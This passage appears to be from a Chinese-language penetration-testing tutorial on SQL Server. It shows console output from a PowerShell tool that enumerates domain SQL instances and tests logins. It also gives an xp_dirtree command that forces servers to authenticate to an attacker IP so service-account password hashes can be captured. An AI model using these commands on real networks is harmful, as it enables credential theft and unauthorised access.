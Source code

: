 [*] ----------------------------------------------------------------------
[*] Start Time: 04/01/2014 10:00:00
[*] Domain: mydomain.com
[*] DC: dc1.mydomain.com
[*] Getting list of SQL Server instances from DC as mydomain\myuser...
[*] 5 SQL Server instances found in LDAP.
[*] Attempting to login into 5 SQL Server instances as test...
[*] ----------------------------------------------------------------------
[-] Failed   - server1.mydomain.com is not responding to pings
[-] Failed   - server2.mydomain.com (192.168.1.102) is up, but authentication failed
[+] SUCCESS! - server3.mydomain.com,1433 (192.168.1.103)-Sysadmin:No - SvcIsDA:No 
[+] Query sent: select name as 'Databases' from master..sysdatabases where HAS_DBACCESS(name) = 1
[+] Query output:

Databases
---------                                                          
master
tempdb
msdb      

[+] SUCCESS! - server3.mydomain.com\SQLEXPRESS(192.168.1.103)-Sysadmin:No-SvcIsDA:No
[+] Query sent: select name as 'Databases' from master..sysdatabases where HAS_DBACCESS(name) = 1
[+] Query output:

Databases
---------                                                          
master
tempdb
msdb      

[+] SUCCESS! - server4.mydomain.com\AppData(192.168.1.104)-Sysadmin: Yes-SvcIsDA: Yes       
[+] Query sent: select name as 'Databases' from master..sysdatabases where HAS_DBACCESS(name) = 1
[+] Query output:

Databases
---------                                                          
master
tempdb
msdb      
PCIDataDB
ApplicationDB
CompanySecrects                      

[*] ----------------------------------------------------------------------
[*] 3 of 5 SQL Server instances could be accessed.        
[*] End Time: 04/01/2014 10:02:00      
[*] Total Time: 00:02:00
[*] ----------------------------------------------------------------------
3，捕获和破解服务帐户的密码哈希在渗透测试中同样也是一个获取SQL server服务账户权限非常有效的攻击方法，在许多场合下服务账户都有环境中所有SQL Server管理员权限，偶尔账户也会有域管理权限。我曾经写了一篇关于捕获中继SQL Server服务账户密码hash的文章(here)。然而，我提供过一种使用”-query”参数快速使SQL Server认证192.168.1.50攻击者的IP的方法。

PS C:\ Get-SQLServerAccess -query "exec master..xp_dirtree '\\192.168.1.50\file'"
[*] ----------------------------------------------------------------------
[*] Start Time: 04/01/2014 10:00:00
[*] Domain: mydomain.com
[*] DC: dc1.mydomain.com
[*] Getting list of SQL Server instances from DC as mydomain\myuser...
[*] 5 SQL Server instances found in LDAP.
[*] Attempting to login into 5 SQL Server instances as mydomain\myuser...
[*] ----------------------------------------------------------------------
[-] Failed   - server1.mydomain.com is not responding to pings
[-] Failed   - server2.mydomain.com (192.168.1.102) is up, but authentication/query failed
[+] SUCCESS! - server3.mydomain.com,1433 (192.168.1.103) - Sysadmin: No - SvcIsDA: No 
[+] Custom query sent: exec master..xp_dirtree '\\192.168.1.50\file'
[+] SUCCESS! - server3.mydomain.com\SQLEXPRESS (192.168.1.103) - Sysadmin: No - SvcIsDA: No